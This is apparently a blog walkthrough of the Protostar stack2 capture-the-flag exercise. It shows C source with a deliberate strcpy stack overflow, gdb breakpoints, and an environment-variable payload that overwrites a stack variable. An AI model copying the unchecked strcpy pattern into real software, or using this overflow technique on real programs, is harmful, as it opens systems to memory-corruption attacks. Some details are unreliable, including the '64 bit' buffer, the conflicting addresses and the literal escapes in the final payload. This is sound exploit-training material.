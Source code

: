 ```yaml
---
title: "Protostar stack2 walkthrough"
date: 2020-05-21
tags: [ctf, protostar, stack2, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```

  
# Protostar exercises - [stack2](https://exploit-exercises.lains.space/protostar/stack2/)

#### About
Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed to a specific value. Again, there is a `strcpy()` being used, but now its copying an environment variable GREENIE. 

We need to create a GREENIE environment variable and overwrite 'modified' variable with it.

###### Vulnerability:

`strcpy` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

###### Disassembly:

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack2/disassemble.png)

We can see that 'modified' is assigned an address $esp+0x58. Lets setup breakpoints before and after `strcpy()` to see which registers are changing

Lets create GREENIE variable. `export GREENIE=AAAAAAAA`  and run the program.

```
break *0x080484df
break *0x080484e4
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```
![firstrun]({{site.url}}{{site.baseurl}}/images/protostar/stack2/firstrun.png)

We can see that registers 0xbffff748 and 0xbffff74c are written with 0x41's.
Also 'modified' is stored at 0xbffff788 ($esp+0x58) and has value of 0x00000000

To overwrite it, we need to fill the addresses from 0xbffff748 to 0xbffff788. That is 40+4 words or 68 bytes.

Lets change the GREENIE value `export GREENIE=AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`

![secondrun]({{site.url}}{{site.baseurl}}/images/protostar/stack2/second.png)

Now, we can see that $esp+0x58 (0xbffff748) is changed to 0x49494949. Lets change it to the desired value 0x0d0a0d0a, which is '\r\n\r\n'

Since the machine formats little endian, the required string is AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHH\n\r\n\r

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack2/done.png)

Now, the varialbe is changed to the desired value and program executes without error.
